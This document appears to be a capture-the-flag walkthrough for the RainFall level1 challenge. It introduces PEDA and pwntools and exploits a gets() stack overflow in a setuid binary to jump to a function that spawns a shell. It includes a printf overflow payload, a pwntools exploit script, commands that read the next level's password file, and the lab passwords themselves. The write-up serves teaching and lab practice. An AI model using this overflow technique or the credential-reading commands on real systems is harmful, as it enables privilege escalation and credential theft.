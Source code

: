 # Level 1

## Introduction

This is an alternative solution that serves as an introtuction to `PEDA` and `pwntools`.
- `PEDA` is an extension to GDB which colorizes and add information
- `pwntools` is a CTF framework and exploit development library

We will first interact with the binary using `PEDA` and then discover how to use `pwntools`

## Setup
We find a binary file at the root of the user **`level1`** named *`./level1`*.

To analyze the binary file we copy it to the host with `scp` *(OpenSSH secure file copy)*.
```bash
scp -r -P 4243 level1@localhost:/home/user/level1/level1 .
```

### PEDA

In order to use `PEDA` can just run it inside docker.
```bash
./peda.sh level1
# or
docker run -it -v "$abs_path":/mnt/binary gdb-peda-image bash -c "gdb -q /mnt/binary"
```

## Binary Analysis

### Main function

On the `PEDA` prompt we need to run a couple of commands to analyze the binary.
In order to develop an exploit, we want to understand the behaviour of the program.

We start by looking at the `main` function.

![disassembled main](../../docs/level1.peda.main.png)

We notice 2 interesting things:
- the program uses `gets()` function, which is known to be prone to buffer overflow
- the program seems to do nothing else

In this context, we know we can use a buffer overflow. By writing past the size of the buffer in which `gets()` writes, we will overwrite the memory used to store the address of the next instruction after the return of the function `main`.

*Smashing The Stack For Fun And Profit* contains wonderful explanations on how the stack works.

Before trying to copy *Smashing The Stack For Fun And Profit*, we run `info functions` in gdb.

### Run function

![info functions](../../docs/level1.peda.info_functions.png)

From all of the symbols listed, `main` and `run` are the only functions writen in the code. All other functions are either imported from a library or functions added by the compiler like `frame_dummy` (feel free to read more about it, this is out of the scope of this walkthrough).

We will run a few commands to analyse the `run()` function
```bash
pdisas run
x/1s 0x8048570
x/1s 0x8048584
```

![run function](../../docs/level1.peda.run.png)

Let me explain.
First, we disassemble `run` with `pdisas` (colored version of `disas` => alias to `disassemble`).
We notice a call to the function `fwrite()`.

When looking at the `man` for the function, we know its first argument is the address of the string to write, and thus the element in `eax` when the function is called.

We see that `eax` contains an addresse, so we will use gdb `x` command to examine the data at this address (0x8048570). We specify that it is one string with `/1s` and we get "Good... Wait what?\n", not very useful.

The same logic for `system` leads us to read the address in `esp`, where we get `"/bin/sh"`.

We know that `run()` prints on stdout and then calls a shell.

### Source

The equivalent program in C would be:
```C
#include <stdio.h>
#include <stdlib.h>

void run() {
    FILE *stdout_ptr = stdout;

    // Print the message "Good... Wait what?\n" to the standard output
    fwrite("Good... Wait what?\n", sizeof(char), 17, stdout_ptr);

    // Execute the "/bin/sh" shell command
    system("/bin/sh");
}

int main(int argc, const char **argv, const char **envp)
{
    char buffer[76]; // Buffer to hold user input
    
    gets(buffer); // Reading input from the user

    return 0;
}
```

### Permissions
As we can see in the permissions of the executable file, the binary `./level1` is executed with the privileges of the user **level2**, the owner of the file.
```bash
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

## Exploit

We now know:
- the binary has user **level2** privileges
- the function `run()` calls `system("/bin/sh")`
- the function `main()` is vulnerable to buffer overflow

Our objective is to insert as a return address for the `main()` function, the address of the first instruction in `run()`.

### First Solution

The string version of the address `0x08048444` has to be in little endian.
It gives `"\x44\x84\x04\x08"`.

We will try to overwrite the `ret` which is after the `frame pointer`, both placed after the buffer in the memory (wonderful explanations in *Smashing The Stack For Fun And Profit*).

A naive implementation could be:
```bash
$ ( printf "\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\x44\x84\x04\x08\n" ; cat ) | ./level1
Good... Wait what?
```

We are lucky, it worked. One of the addresses ended up as the return address of the `main()` function.
We can print the flag.
```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

<details>
<summary>Why weird `cat` in the command-line?</summary>
<br>
Because we ran the program with the input coming from a pipeline, the input is redirected to the `stdin` of the program. So, when the program calls for `system("/bin/sh")`, it immediately executes the shell without waiting for further input, and all it finds on the `stdin` is `EOF` so it closes the shell.
To work around this issue we can keep the `stdin` open with the call to `cat`.
</details>

### Best Solution

Back to `PEDA`, we will use 2 commands:
- `pattern create`
- `pattern offset`

Before, we filled the buffer, and more, with an arbitrary number of our target address.
But say we want the offset between the begining of our buffer and the return address in the memory.
What we can do is:
- generate a long string with no similar subsequence of 4 characters `pattern create` [De Bruijn sequence](https://en.wikipedia.org/wiki/De_Bruijn_sequence)
- put it in the buffer
- look at the address called at program failure (it will be a sequence of 4 characters of the string)
- look at where in our string the subsequence appears
- count the number of characters before: `pattern offset`

![peda pattern create](../../docs/level1.peda.pattern.png)

![peda pattern offset](../../docs/level1.peda.offset.png)

With the following pattern, `AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL` the programs tries to execute the instructions at `0x41344141` or `"A4AA"`, which we find in the string only once.

We now know that the return address is 76 char after the start of the buffer.

We can use `pwntools`, and write an `exploit.py` script.

```python
from pwn import *

HOST = 'localhost'
PORT = 4243
# current level
USER = 'level1'
# pass for current level (in /home/user/{USER}/.pass)
PASS = '1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a'

def main():
    # creates a new ssh connection https://docs.pwntools.com/en/latest/tubes/ssh.html
    connection = ssh(host=HOST, port=PORT, user=USER, password=PASS)

    # requires python on remote server
    # binds to the binary /home/user/level1/level1
    process = connection.process(f'/home/user/{USER}/{USER}')

    # We know the offset is 76 from gdb exploration
    # We got 0x08048444 as the address of the first instruction of 'run'
    # The payload has to be 76 random char followed by the little endian form of the address
    payload = b'.'*76 + b'\x44\x84\x04\x08'

    process.sendline(payload)

    # Print the vm's stdout until first shell input
    print(process.recvuntil(b'$ '))

    process.sendline(b'cat /home/user/level2/.pass')
    # Print the flag
    print(process.recv())

main()
```

We will get the flag with
```bash
./pwntools.sh exploit.py
```
